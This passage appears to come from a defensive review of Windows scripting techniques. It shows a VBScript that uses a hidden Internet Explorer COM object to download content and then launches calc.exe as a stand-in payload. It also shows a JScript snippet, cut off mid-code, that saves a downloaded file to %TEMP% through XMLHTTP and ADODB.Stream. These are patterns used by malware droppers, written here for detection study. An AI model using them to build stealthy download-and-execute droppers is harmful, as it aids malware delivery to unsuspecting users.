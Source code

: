 
### Hidden COM Objects

Here is a VBScript file that uses a hidden Internet Explorer COM object to download a file:

```vb.net
Dim objIE

Set objIE = CreateObject("InternetExplorer.Application")
Set s = CreateObject("WScript.Shell")

objIE.Visible = False
objIE.Navigate "https://www.sans.org"

'Wait for page to load
While objIE.ReadyState <> 4 : WScript.Sleep 100 : Wend

'Download was successful
WScript.Echo "Title of page downloaded:"
WScript.Echo objIE.document.title

'Simulate executing downloaded file
WScript.Echo "Executing calc.exe..."
s.run("calc.exe")
```

<br>

Running the VBScript file `grabfile.vbs` creates an invisible IE object which downloads a file from the Internet and then runs `calc.exe`:

![](images/Review%20of%20Windows%20Scripting%20Technologies/image005.png)<br><br>

Logs show the `cscript.exe` process is created with the VBScript file as an argument:

![](images/Review%20of%20Windows%20Scripting%20Technologies/image008.png)<br><br>


Similar actions can be accomplished using JScript:

```javascript
var ws = new ActiveXObject("WScript.Shell");
var fn = ws.ExpandEnvironmentStrings("%TEMP%") + "\\" + "abcdef.txt";
var xo = new ActiveXObject("MSXML2.XMLHTTP");
xo.onreadystatechange = function() {
  if (xo.readyState === 4) {
    var xa = new ActiveXObject("ADODB.Stream");
    xa.open();
    xa.type = 1;
    xa.write(xo.ResponseBody);
    xa.position = 0;
    xa.saveToFile(fn, 2);
    xa.close();
  };
};
try {
```